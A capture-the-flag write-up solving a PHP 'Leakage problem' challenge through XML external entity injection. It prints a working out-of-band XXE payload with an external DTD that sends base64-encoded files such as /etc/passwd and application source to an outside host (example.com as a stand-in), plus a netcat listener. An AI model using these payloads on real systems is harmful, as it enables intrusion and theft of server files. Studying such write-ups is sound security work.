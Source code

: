 # Leakage problem

Leakage problem was a PHP based XML external entity (XXE) injection challenge. The website
has a single field which expects an email address:

<img width="725" alt="image" src="https://user-images.githubusercontent.com/6275775/231825682-9b661676-cd6f-4bb1-9be1-03560a21a030.png">

The first thing to notice is that the corresponding request contains an xml payload:

```
<?xml version="1.0"?>
<form>
<email>xxx@foo.com</email>
</form>
```

This immediately triggers the XXE attack vector. I have a small server running where
I can host payloads for such competitions, so after some trial and error I got to the
following setup. (I'll use example.com below instead of the real server.)


```
# https://example.com/foo.dtd
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://example.com:11111/?%file;'>">%start;
```

and send this to the website:

```
<?xml version="1.0"?>
<!DOCTYPE form [ 
    <!ENTITY % remote SYSTEM "https://example.com/foo.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
     %remote;
     %send;
 ]>
<form />
```

I can listen to the incoming requests in my server with:
```
nc -l localhost 11111
```

This works fine, I get the `/etc/passwd` file. What else can we steal? I looked around the 
`/proc` folder in my linux machine for inspiration then tried things like `/proc/self/cmdline`,
`/proc/self/cwd/index.php` and `/proc/self/cwd/register.php`:

```php
# register.php
...

if( isset($creds->email)){
    $url = 'http://127.0.0.1:4200/register';
    $data = array('email' => $creds->email);
    $options = array(
        'http' => array(
            'header'  => "Content-type: application/x-www-form-urlencoded",
            'method'  => 'POST',
            'content' => "email=".$creds->email
        )
    );
    $context  = stream_context_create($options);
    $result = file_get_contents($url, false, $context);
    $success=True;
}
...
```

Ok, we have nice LFI, and it seems that the register.php forwards the request to an other service
that runs on port 4200.

I also checked `/proc/1/cmdline`:

```
/bin/sh -c apachectl start && node index.js
```

Maybe it is running in the `/app` directory, let's try `/app/index.js`:

```javascript
/* index.js */

const express = require("express");
const schema = require("./schema");
const resolvers = require("./resolvers");
const { graphqlHTTP } = require('express-graphql');
const {Users} = require('./users')
const bodyParser = require('body-parser')

const urlencodedParser = bodyParser.urlencoded({ extended: false })

const app = express();

app.use(
  "/graphql",
  graphqlHTTP({
    schema,
    rootValue: resolvers,
    graphiql: true
  })
);

app.post('/register',urlencodedParser,(req, res) =>{
  try{
    if(typeof req.body.email != 'undefined' && req.body.email){
      Users.push({email:req.body.email});
    }
  }catch(e){}
  return res.end();
});


const port = process.env.PORT || 4200;
app.listen(port);

console.log(`GraphQL Server is ready at http://localhost:4200/graphql`);
```

Bingo. We can now download all the files mentioned in the import section (add .js to the 
filenames), soon we'll run into `data.js` which is kind of big and has some base64 encoded data in it. 
This is some weird picture of Shrek with our most wanted flag.

It was not the intended way to solve the challenge, I avoided the whole grapql thing and
I was lucky with looking into the `app` folder, but it was an educated guess which worked 
this time.
